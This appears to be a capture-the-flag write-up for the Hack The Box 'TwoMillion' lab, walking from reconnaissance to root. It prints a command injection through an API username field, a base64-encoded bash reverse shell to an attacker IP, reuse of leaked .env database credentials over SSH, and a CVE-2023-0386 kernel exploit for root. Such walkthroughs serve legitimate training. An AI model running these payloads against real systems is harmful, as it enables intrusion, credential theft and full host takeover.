

# TwoMillion

First, we conduct an Nmap scan:

```
nmap -sS -sV -Pn -p- 10.129.229.66
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sS -sV -Pn -p- 10.129.229.66
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-06-01 07:22 EDT
Nmap scan report for 10.129.229.66
Host is up (0.044s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 24.02 seconds
```

First, we need to add a `10.129.229.66 2million.htb` record to our `/etc/hosts` file. Next, when we head to the webpage, we can see that it features login and registration functionalities, allowing users to join by entering an invite code. Once we click "Join HTB", we are redirected to `/invite`. When we examine the source code, we notice an interesting reference to a file named `/js/inviteapi.min.js`. Upon inspecting the file at `2million.htb/js/inviteapi.min.js`, we can see that it is an obfuscated JavaScript file. We paste it into an LLM and ask it to deobfuscate it. Once it is done, we are presented with the following code:

```javascript
function verifyInviteCode(code) {
    var formData = {"code": code};
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite',
        success: function(response) { console.log(response) },
        error:   function(response) { console.log(response) }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) { console.log(response) },
        error:   function(response) { console.log(response) }
    });
}
```

We can see some interesting endpoints being utilized by the deobfuscated functions. We can test `/api/v1/invite/how/to/generate` using the `curl` utility:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -X POST [http://2million.htb/api/v1/invite/how/to/generate](http://2million.htb/api/v1/invite/how/to/generate) | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249    0   249    0     0   3952      0 --:--:-- --:--:-- --:--:--  4016
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

Now we can decrypt the data using the ROT13 cipher:



We can try generating the invite code by making a POST request to the `/api/v1/invite/generate` endpoint:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -X POST [http://2million.htb/api/v1/invite/generate](http://2million.htb/api/v1/invite/generate) | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91    0    91    0     0   1528      0 --:--:-- --:--:-- --:--:--  1542
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "WUVXMkQtODNUT0ktMUlORzctSDQxUjU=",
    "format": "encoded"
  }
}
```

We have obtained an invite code, so now we can decode it (Base64) and use it to register an account on the Hack The Box website. Now that we have an account, we can try to enumerate the website's API (we can extract our session cookie from Burp Suite, for example):

```
curl -sv --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" [http://2million.htb/api/v1](http://2million.htb/api/v1) | jq
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -sv --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" [http://2million.htb/api/v1](http://2million.htb/api/v1) | jq
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
* Trying 10.129.229.66:80...
* Connected to 2million.htb (10.129.229.66) port 80
* using HTTP/1.x
> GET /api/v1 HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.13.0
> Accept: */*
> Cookie: PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Tue, 02 Jun 2026 10:34:11 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
{ [812 bytes data]
* Connection #0 to host 2million.htb left intact
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

We can test the administrative endpoints, such as the `/api/v1/admin/settings/update` endpoint:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X PUT --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
```

We need to add a `Content-Type` header to our request:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X PUT --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" --header "Content-Type: application/json" [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

We can see that the "email" parameter is missing. We can supply this parameter with the email address we used previously when registering our account on the website:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X PUT --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" --header "Content-Type: application/json" --data '{"email":"idk@idk.com"}' [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) | jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
                                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X PUT --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" --header "Content-Type: application/json" --data '{"email":"idk@idk.com", "is_admin":true}' [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) | jq 
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
                                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X PUT --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" --header "Content-Type: application/json" --data '{"email":"idk@idk.com", "is_admin":1}' [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) | jq
{
  "id": 13,
  "username": "macmaz",
  "is_admin": 1
}
```

By sending this PUT request to the `2million.htb/api/v1/admin/settings/update` endpoint, we successfully updated our account privileges to administrative level. We can verify this by sending a request to the `/api/v1/admin/auth` endpoint:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" [http://2million.htb/api/v1/admin/auth](http://2million.htb/api/v1/admin/auth) | jq
{
  "message": true
}
```

Now we can generate an OpenVPN configuration file for a random user named "aaa", utilizing the `/api/v1/admin/vpn/generate` endpoint:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X POST --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" --header "Content-Type: application/json" --data '{"username":"aaa"}' [http://2million.htb/api/v1/admin/vpn/generate](http://2million.htb/api/v1/admin/vpn/generate)     
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun

...

...

#
# 2048 bit OpenVPN static key
#
-----BEGIN OpenVPN Static key V1-----
45df64cdd950c711636abdb1f78c058c
358730b4f3bcb119b03e43c46a856444
05e96eaed55755e3eef41cd21538d041
079c0fc8312517d851195139eceb458b
f8ff28ba7d46ef9ce65f13e0e259e5e3
068a47535cd80980483a64d16b7d10ca
574bb34c7ad1490ca61d1f45e5987e26
7952930b85327879cc0333bb96999abe
2d30e4b592890149836d0f1eacd2cb8c
a67776f332ec962bc22051deb9a94a78
2b51bafe2da61c3dc68bbdd39fa35633
e511535e57174665a2495df74f186a83
479944660ba924c91dd9b00f61bc09f5
2fe7039aa114309111580bc5c910b4ac
c9efb55a3f0853e4b6244e3939972ff6
bfd36c19a809981c06a91882b6800549
-----END OpenVPN Static key V1-----
</tls-auth>
```

Since this is an administrative endpoint, there is a chance that the file above is generated directly via an `exec` or `system` PHP function without sufficient filtering in place, which might allow us to inject malicious code. We can test this hypothesis by injecting the `whoami` command into the username field:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X POST --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" --header "Content-Type: application/json" --data '{"username":"aaa;whoami;"}' [http://2million.htb/api/v1/admin/vpn/generate](http://2million.htb/api/v1/admin/vpn/generate)
www-data
```

As we can see, we received a proper response executing our `whoami` command. Now we can proceed to deploy a reverse shell:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl -s -X POST --cookie "PHPSESSID=css5vrhnqiu2pn8u72de8h1rqt" --header "Content-Type: application/json" --data '{"username":"aaa;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMDEvNDQ0NCAwPiYx | base64 -d | bash;"}' [http://2million.htb/api/v1/admin/vpn/generate](http://2million.htb/api/v1/admin/vpn/generate)
```

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -nvlp 4444                                                
listening on [any] 4444 ...
connect to [10.10.15.101] from (UNKNOWN) [10.129.229.66] 43416
bash: cannot set terminal process group (1093): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
whoami
www-data
www-data@2million:~/html$ hostname
hostname
2million
www-data@2million:~/html$ 
```

When listing the working directory, we notice an `.env` file containing database credentials:

```
www-data@2million:~/html$ ls -al
ls -al
total 56
drwxr-xr-x 10 root root 4096 Jun 10 12:30 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Jun 10 12:30 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Since the SSH server is running on the target, we can try using these credentials to log in over SSH:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh admin@10.129.16.42              
The authenticity of host '10.129.16.42 (10.129.16.42)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.16.42' (ED25519) to the list of known hosts.
admin@10.129.16.42's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

...
...
...

admin@2million:~$ 
```

Logging in over SSH with the database credentials succeeded, and we can now read the user flag:

```
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt
ea4bd704f483af83c3f1e89f79bfe316
admin@2million:~$ 
```

When we check the system mail for the host under `/var/mail/admin`, we find an interesting message addressed to us:

```
admin@2million:/tmp$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
admin@2million:/tmp$ 
```

Searching for "OverlayFS FUSE cve 2023" in our search engine leads us to a repository containing a ready-to-use exploit at https://github.com/puckiestyle/CVE-2023-0386. Now, we can simply transfer the repository code onto the target machine and follow the usage instructions:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ git clone [https://github.com/puckiestyle/CVE-2023-0386.git](https://github.com/puckiestyle/CVE-2023-0386.git)
Cloning into 'CVE-2023-0386'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (28/28), done.
remote: Total 39 (delta 16), reused 24 (delta 7), pack-reused 0 (from 0)
Receiving objects: 100% (39/39), 429.54 KiB | 2.57 MiB/s, done.
Resolving deltas: 100% (16/16), done.
                                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ cd CVE-2023-0386 
                                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop/CVE-2023-0386]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ([http://0.0.0.0:80/](http://0.0.0.0:80/)) ...
10.129.16.42 - - [10/Jun/2026 09:17:46] "GET / HTTP/1.1" 200 -
10.129.16.42 - - [10/Jun/2026 09:17:46] code 404, message File not found
...
...
...
10.129.16.42 - - [10/Jun/2026 09:17:49] "GET /.git/logs/refs/remotes/origin/ HTTP/1.1" 200 -
10.129.16.42 - - [10/Jun/2026 09:17:49] "GET /.git/refs/remotes/origin/HEAD HTTP/1.1" 200 -
```

```
admin@2million:/$ cd tmp
admin@2million:/tmp$ wget -r -np [http://10.10.15.101](http://10.10.15.101)
--2026-06-10 13:17:47--  [http://10.10.15.101/](http://10.10.15.101/)
Connecting to 10.10.15.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 497 [text/html]
Saving to: ‘10.10.15.101/index.html’

10.10.15.101/index.html      100%[==============================================>]     497  --.-KB/s    in 0s      

2026-06-10 13:17:47 (35.7 MB/s) - ‘10.10.15.101/index.html’ saved [497/497]

...
...
...

2026-06-10 13:17:50 (3.19 MB/s) - ‘10.10.15.101/.git/refs/remotes/origin/HEAD’ saved [30/30]

FINISHED --2026-06-10 13:17:50--
Total wall clock time: 3.4s
Downloaded: 56 files, 503K in 0.2s (2.65 MB/s)
admin@2million:/tmp$ cd 10.10.15.101/
admin@2million:/tmp/10.10.15.101$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
...
...
...
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
admin@2million:/tmp/10.10.15.101$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  index.html  Makefile  ovlcap  README.md  test
admin@2million:/tmp/10.10.15.101$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
```

```
admin@2million:/tmp/10.10.15.101$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root    root     4096 Jun 10 13:21 .
drwxrwxr-x 6 root    root     4096 Jun 10 13:21 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/10.10.15.101# whoami
whoami
root
root@2million:/tmp/10.10.15.101# hostname
hostname
2million
root@2million:/tmp/10.10.15.101# 
```

By following the instructions provided in the repository, we successfully gained root shell access and can now read the root flag:

```
root@2million:/tmp/10.10.15.101# cd /root
root@2million:/root# cat root.txt 
cfa70c6742519e0e2fb05406a868ff08
root@2million:/root# 
```